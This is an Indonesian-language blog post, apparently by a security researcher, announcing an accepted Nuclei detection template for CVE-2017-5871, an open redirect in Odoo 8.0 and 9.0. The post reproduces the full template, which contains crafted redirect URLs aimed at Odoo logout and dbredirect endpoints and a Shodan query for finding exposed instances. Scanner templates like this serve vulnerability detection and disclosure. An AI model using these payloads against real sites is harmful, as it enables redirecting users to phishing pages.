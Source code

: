 ```yaml
---
title: Odoo LEQ 8.0-20160726 and 9.0 Open Redirect
excerpt: 01 Oktober 2024, saya menyumbangkan Template CVE-2017-5871 untuk ProjectDiscovery (Nuclei Templates). 02 Oktober 2024, Template CVE-2017-5871 sedang dalam proses peninjauan. 03 Oktober 2024, Template CVE-2017-5871 disetujui.
date: 2024-10-01 01:37:00
tags: [cve]
categories:
  - [1337rokudenashi]
index_img: https://wallup.net/wp-content/uploads/2016/05/14/42702-Yuru_Yuri.jpg
banner_img: https://wallup.net/wp-content/uploads/2016/05/14/42702-Yuru_Yuri.jpg
---
```


01 Oktober 2024, saya menyumbangkan Template CVE-2017-5871 untuk ProjectDiscovery (Nuclei Templates). 02 Oktober 2024, Template CVE-2017-5871 sedang dalam proses peninjauan. 03 Oktober 2024, Template CVE-2017-5871 disetujui.

```yaml
id: CVE-2017-5871

info:
  name: Odoo <= 8.0-20160726 & 9.0 - Open Redirect
  author: 1337rokudenashi
  severity: medium
  description: |
    An Open Redirect vulnerability in Odoo versions <= 8.0-20160726 and 9.0. This issue allows an attacker to redirect users to untrusted sites via a crafted URL.
  impact: |
    Successful exploitation can redirect users to malicious sites, potentially leading to phishing attacks or information theft.
  remediation: |
    Update Odoo to the latest patched version provided by the vendor.
  reference:
    - https://sysdream.com/cve-2017-5871-odoo-url-redirection-to/
    - https://nvd.nist.gov/vuln/detail/CVE-2017-5871
  classification:
    cvss-metrics: CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:L/A:N
    cvss-score: 5.4
    cve-id: CVE-2017-5871
    cwe-id: CWE-601
    cpe: cpe:2.3:a:odoo:odoo:8.0:*:*:*:*:*:*:*
  metadata:
    verified: true
    max-request: 1
    shodan-query: title:"Odoo"
    product: odoo
    vendor: odoo
  tags: cve2017,cve,odoo,redirect

http:
  - method: GET
    path:
      - "{{BaseURL}}/web/session/logout?redirect=https://oast.me"
      - "{{BaseURL}}/web/session/logout?redirect=https%3a%2f%2foast.me%2f"
      - "{{BaseURL}}/web/dbredirect?redirect=https%3a%2f%2foast.me%2f"

    stop-at-first-match: true
    matchers:
      - type: regex
        part: header
        regex:
          - '(?m)^(?:Location\s*?:\s*?)(?:https?://|//)?(?:[a-zA-Z0-9\-_\.@]*)oast\.me.*$'
# digest: 4a0a00473045022020526a4a017f0ebf412281aa95a72bf7a4f658c9f0762e3d04f8e7777c27c3aa02210096b1d8f905d0add3542ab88bf2780fff501aecd56d8e99a7d7ddd25f44bcd9ae:922c64590222798bb761d5b6d8e72950
```

Ini adalah bentuk kontribusi saya sebagai Security Researcher. Odoo LEQ 8.0-20160726 and 9.0 Open Redirect [(1337rokudenashi)](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2017/CVE-2017-5871.yaml)
